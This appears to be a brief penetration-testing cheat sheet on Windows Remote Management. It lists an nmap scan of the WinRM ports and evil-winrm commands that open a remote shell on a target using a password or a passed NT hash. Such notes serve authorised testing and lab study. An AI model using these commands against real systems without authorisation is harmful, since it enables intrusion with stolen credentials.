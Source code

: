 # Windows Remote Management _(WinRM)_ enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Reverse shells](#reverse-shells)

## Initial enumeration
```bash
nmap -vv -p 5985,5986 -sT <ip>
```

## Reverse shells
```bash
evil-winrm -i <ip> -u <username> -p <password>
evil-winrm -i <ip> -u <username> -H <nt_hash>
```
